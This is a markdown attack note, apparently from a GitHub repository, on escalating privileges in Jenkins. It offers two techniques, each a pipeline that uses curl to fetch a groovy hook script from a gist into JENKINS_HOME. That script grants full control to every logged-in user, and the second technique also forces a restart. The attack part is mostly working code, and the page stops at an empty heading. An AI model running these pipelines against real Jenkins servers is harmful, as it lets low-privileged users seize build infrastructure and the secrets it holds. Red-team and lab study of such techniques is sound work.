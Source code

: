 # Privilege Escalations
- When new users are created they by default has admin access
- The users can be given specific roles using the Authorization Matrix Plugin
- The attacks we can try is to 




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Give admin access to all authenticated users by executing a groovy script - Technique 2


```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/b1240be7e950a96929810e5fafbdd76db46a9731/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Give extra permissions to user by modifying the config.xml file
